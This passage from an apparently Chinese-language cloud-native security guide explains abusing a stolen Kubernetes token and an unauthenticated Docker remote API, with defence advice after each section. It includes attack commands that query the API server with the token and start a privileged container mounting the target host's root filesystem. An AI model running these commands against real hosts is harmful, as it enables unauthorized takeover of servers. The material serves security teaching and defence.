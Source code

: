 利用 token 我们可以通过 apiserver 端口 6443 控制集群：

# 使用获取的token访问API服务器
curl -k -H "Authorization: Bearer <token>" https://kubernetes-api-server:6443/api/v1/namespaces

**防御建议**：

-   避免将etcd暴露到公网
-   使用TLS双向认证保护etcd通信
-   实施网络策略，限制对etcd的访问
-   定期备份etcd数据
-   考虑使用加密功能保护敏感数据

### 7.6. docker remote api

Docker Engine API 是 Docker 提供的基于 HTTP 协议的用于 Docker 客户端与 Docker 守护进程交互的 API，Docker daemon 接收来自 Docker Engine API 的请求并处理，Docker daemon 默认监听 2375 端口且未鉴权，我们可以利用 API 来完成 Docker 客户端能做的所有事情。

Docker daemon 支持三种不同类型的 socket: unix, tcp, fd。默认情况下，Docker daemon 监听在 unix:///var/run/docker.sock，开发者可以通过多种方式打开 tcp socket，比如修改 Docker 配置文件如 / usr/lib/systemd/system/docker.service：

```
[Service]
ExecStart=/usr/bin/dockerd -H fd:// -H tcp://0.0.0.0:2375
```

之后依次执行 systemctl daemon-reload、systemctl restart docker 便可以使用 docker -H tcp://\[HOST\]:2375 这种方式控制目标 docker

# 列出所有容器
docker -H tcp://target-host:2375 ps -a

# 创建特权容器
docker -H tcp://target-host:2375 run -d --privileged -v /:/host\_root alpine:latest sh -c "while true; do sleep 1; done"

因此当你有访问到目标 Docker API 的网络能力或主机能力的时候，你就拥有了控制当前服务器的能力。我们可以利用 Docker API 在远程主机上创建一个特权容器，并且挂载主机根目录到容器，对主机进行进一步的渗透，更多利用方法参考容器逃逸章节。

检测目标是否存在 docker api 未授权访问漏洞的方式也很简单，访问 http://\[host\]:\[port\]/info 路径是否含有 ContainersRunning、DockerRootDir 等关键字。

**防御建议**：

-   避免将Docker API暴露到公网
-   使用TLS双向认证保护Docker API通信
-   实施网络策略，限制对Docker API的访问
-   考虑使用授权插件限制API访问权限
-   监控Docker API调用，检测异常行为

### 7.7. kubectl proxy
